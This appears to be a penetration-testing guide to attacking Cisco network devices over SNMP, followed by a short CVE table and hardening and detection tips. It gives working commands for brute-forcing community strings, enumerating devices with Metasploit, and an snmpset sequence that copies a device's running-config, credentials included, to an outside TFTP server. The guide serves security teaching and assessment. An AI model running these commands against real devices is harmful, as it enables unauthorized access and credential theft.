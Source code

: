 # Cisco SNMP

## Pentesting Cisco Networks

**SNMP** functions over UDP with ports **161/UDP** for general messages and **162/UDP** for trap messages. This protocol relies on *community strings*, serving as plaintext "passwords" that enable communication between SNMP agents and managers. These strings determine the access level, specifically **read-only (RO) or read-write (RW) permissions**.

A classic—yet still extremely effective—attack vector is to **brute-force community strings** in order to elevate from unauthenticated user to device administrator (RW community).  
A practical tool for this task is [**onesixtyone**](https://github.com/trailofbits/onesixtyone):

```bash
onesixtyone -c community_strings.txt -i targets.txt
```

Other fast options are the Nmap NSE script `snmp-brute` or Hydra's SNMP module:

```bash
nmap -sU -p161 --script snmp-brute --script-args brute.community=wordlist 10.0.0.0/24
hydra -P wordlist.txt -s 161 10.10.10.1 snmp
```

---

### Dumping configuration through SNMP (CISCO-CONFIG-COPY-MIB)
If you obtain an **RW community** you can copy the running-config/startup-config to a TFTP/FTP server *without CLI access* by abusing the CISCO-CONFIG-COPY-MIB (`1.3.6.1.4.1.9.9.96`). Two common approaches are:

1. **Nmap NSE – `snmp-ios-config`**

```bash
nmap -sU -p161 --script snmp-ios-config \
     --script-args creds.snmp=private 192.168.66.1
```
The script automatically orchestrates the copy operation and prints the configuration to stdout   .

2. **Manual `snmpset` sequence**

```bash
# Copy running-config (4) to a TFTP server (1) – random row id 1234
snmpset -v2c -c private 192.168.66.1 \
  1.3.6.1.4.1.9.9.96.1.1.1.1.2.1234 i 1 \    # protocol = tftp
  1.3.6.1.4.1.9.9.96.1.1.1.1.3.1234 i 4 \    # sourceFileType = runningConfig
  1.3.6.1.4.1.9.9.96.1.1.1.1.4.1234 i 1 \    # destFileType   = networkFile
  1.3.6.1.4.1.9.9.96.1.1.1.1.5.1234 a 10.10.14.8 \ # TFTP server IP
  1.3.6.1.4.1.9.9.96.1.1.1.1.6.1234 s \"backup.cfg\" \\
  1.3.6.1.4.1.9.9.96.1.1.1.1.14.1234 i 4       # rowStatus = createAndGo
```
Row identifiers are *one-shot*; reuse within five minutes triggers `inconsistentValue` errors.  

Once the file is on your TFTP server you can inspect credentials (`enable secret`, `username <user> secret`, etc.) or even push a modified config back to the device.

---

### Metasploit goodies

* **`cisco_config_tftp`** – downloads running-config/startup-config via TFTP after abusing the same MIB.
* **`snmp_enum`** – collects device inventory information, VLANs, interface descriptions, ARP tables, etc.

```bash
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 10.10.100.10
set COMMUNITY public
run
```

---

## Recent Cisco SNMP vulnerabilities (2023 – 2025)
Keeping track of vendor advisories is useful to scope *zero-day-to-n-day* opportunities inside an engagement:

| Year | CVE | Affected feature | Impact |
|------|-----|-----------------|--------|
| 2025 | CVE-2025-20174 | SNMP subsystem | Crafted packet leads to authenticated *DoS* (reload) on IOS/IOS-XE (v1/v2c/v3).   |
| 2024 | CVE-2024-20373 | IPv4 ACL handling | Mis-configured **extended** ACLs silently *fail*, allowing unauthenticated SNMP polling when a valid community/user is known.   |
| 2025 | (no CVE yet) | SNMPv3 configuration restriction bypass | Valid v3 user can poll from addresses that should be denied.   |

Exploitability often still depends on possessing the community string or v3 credentials—another reason why brute-forcing them remains relevant.

---

## Hardening & Detection tips

* Upgrade to a fixed IOS/IOS-XE version (see Cisco advisory for the CVE above).
* Prefer **SNMPv3** with `authPriv` (SHA-256/AES-256) over v1/v2c.  
  ```
  snmp-server group SECURE v3 priv
  snmp-server user monitor SECURE v3 auth sha <authpass> priv aes 256 <privpass>
  ```
* Bind SNMP to a management VRF and **restrict with *standard* numbered IPv4 ACLs** (extended named ACLs are risky – CVE-2024-20373).
* Disable **RW communities**; if operationally required, limit them with ACL and views:  
  `snmp-server community <string> RW 99  view SysView`
* Monitor for:
  - UDP/161 spikes or unexpected sources (SIEM rules).
  - `CISCO-CONFIG-MAN-MIB::ccmHistoryEventConfigSource` events indicating out-of-band config changes.
* Enable **SNMPv3 logging** and `snmp-server packetsize 1500` to reduce certain DoS vectors.

---

## References

- Cisco: *How To Copy Configurations To and From Cisco Devices Using SNMP*  
- Cisco Security Advisory *cisco-sa-snmp-uwBXfqww* (CVE-2024-20373)  

